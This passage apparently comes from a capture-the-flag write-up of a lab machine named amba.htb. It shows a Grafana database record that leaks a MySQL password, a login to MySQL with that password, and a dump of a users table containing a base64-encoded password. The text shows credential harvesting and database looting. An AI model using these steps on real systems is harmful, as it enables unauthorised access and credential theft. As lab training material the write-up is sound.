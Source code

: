 ```sql
INSERT INTO data_source VALUES(2,1,1,'mysql','mysql.yaml','proxy','','dontStandSoCloseToMe63221!','grafana','grafana',0,'','',0,X'7b7d','2022-09-01 22:43:03','2022-10-24 14:24:03',0,'{}',1,'uKewFgM4z');
COMMIT;

```

After studying the database we find the password for MySQL, located on port 3306. Let’s connect:

```sql
> mysql --host amba.htb -u grafana -p
Enter password: dontStandSoCloseToMe63221!
l
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 62
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input 

MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.137 sec)

MySQL [(none)]> use whackywidget
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.132 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user     | pass                                      |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.134 sec)

```
